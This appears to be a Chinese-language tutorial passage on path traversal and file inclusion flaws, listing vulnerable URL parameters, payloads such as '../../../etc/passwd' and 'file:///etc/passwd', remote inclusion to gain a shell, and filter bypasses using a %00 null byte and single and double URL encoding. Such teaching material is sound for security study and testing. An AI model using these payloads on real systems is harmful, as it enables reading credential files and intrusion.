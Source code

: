 ?home=xxx.html

?index=xxx.jsp

?file=content

 

### 常用漏洞验证方式：

#### 1：../../../../../../（多少个../都行，越多越好）/etc/passwd

![img](/blog.github.io/images/1312707-20181122125924263-1282240920.png)

 

URL上这一串东西的意义：../返回上级目录，当返回到根目录时候再../还是根目录，然后直接进入linux系统的passwd文件

 

#### 2.file:///etc/passwd（这里是文件包含漏洞，不过利用方法一致）

![img](/blog.github.io/images/1312707-20181122130527658-1607236601.png)

 

#### 3.http://xxxxx

![img](/blog.github.io/images/1312707-20181122130838887-1451696930.png)

 

前两者用途：可以读取到目标系统的机密文件

远程文件包含用途：可以构建一个带有shellcode的网站，使目标访问，进而得到shell（虽然是低权限shell）

 

###  **注意事项：**

1.有时候?page=../../../etc/passwd，显示找不到passwd.php文件，这是目标系统开启了过滤机制

绕过办法：PHP5.3版本以前的，可以用一个空字符%00来解决，示例：

?page=../../../etc/passwd%00

这时候就算目标机器补上一个.php，也无所谓

 

2.有的服务器会过滤非法字符，比如/\$&.*等，我们可以采用一些编码来处理

路径方面，linux一定是/，windows通常是\，但有可能是/，实际中可以多次发送根据结果来得到答案

编码方面：示例

URL编码：

../   %2e%2e%2f

..\   %2e%2e%5c

..\   %252e%252e%255c (双层URL编码)
